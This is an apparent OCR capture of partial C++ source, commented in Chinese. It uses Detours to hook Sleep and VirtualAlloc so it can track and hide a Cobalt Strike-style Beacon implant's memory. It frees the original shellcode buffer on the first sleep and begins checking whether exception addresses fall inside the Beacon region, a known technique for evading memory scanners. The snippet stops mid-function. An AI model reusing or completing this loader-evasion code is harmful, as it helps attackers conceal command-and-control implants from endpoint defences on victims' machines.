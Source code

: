 ```cpp
DWORD Beacon_Memory_address_flOldProtect; // Beacon内存属性
HANDLE hEvent; // 事件句柄

BOOL Vir_FLAG = TRUE; // 感染标记
LPVOID shellcode_addr; // shellcode内存地址

//定义两个指向原函数的指针，分别是Sleep和VirtualAlloc
static VOID(WINAPI* OldSleep)(DWORD dwMilliseconds) = Sleep;
static LPVOID (WINAPI *OldVirtualAlloc)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect) = VirtualAlloc;

//定义Sleep和VirtualAlloc的钩子函数
LPVOID WINAPI NewVirtualAlloc(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect) {
	Beacon_data_len = dwSize;
	Beacon_address = OldVirtualAlloc(lpAddress, dwSize, flAllocationType, flProtect);
	printf("Memory Allocation Size:%d\n", Beacon_data_len);
	printf("Memory Allocation Address:%llx \n", Beacon_address);
	return Beacon_address;
}
void WINAPI NewSleep(DWORD dwMilliseconds)
{
	if (Vir_FLAG)
	{	
		printf("Free Memory Address:%llx\n", shellcode_addr);
		VirtualFree(shellcode_addr, 0, MEM_RELEASE);
		Vir_FLAG = false;
	}
	printf("The time of Sleep:%d\n", dwMilliseconds);
	SetEvent(hEvent);
	OldSleep(dwMilliseconds);
}

//对函数进行inlineHook
void Hook()
{
	DetourRestoreAfterWith(); //避免重复HOOK
	DetourTransactionBegin(); // 开始HOOK
	DetourUpdateThread(GetCurrentThread());
	DetourAttach((PVOID*)&OldVirtualAlloc, NewVirtualAlloc);
	DetourAttach((PVOID*)&OldSleep, NewSleep);
	DetourTransactionCommit(); //  提交HOOK
}

//解除对函数的inlineHook
void UnHook()
{
	DetourTransactionBegin();
	DetourUpdateThread(GetCurrentThread());
	DetourDetach((PVOID*)&OldVirtualAlloc, NewVirtualAlloc);
	DetourTransactionCommit();
}

//判断异常代码的地址是否在Beacon内存的范围之内
BOOL is_Exception(DWORD64 Exception_addr)
{
	if (Exception_addr < ((DWORD64)Beacon_address + Beacon_data_len) && Exception_addr >(DWORD64)Beacon_address)
	{
		printf("The Exception Address is a match:%llx\n", Exception_addr);
		return true;
	}
	printf("The Exception Address not a match:%llx\n", Exception_addr);
```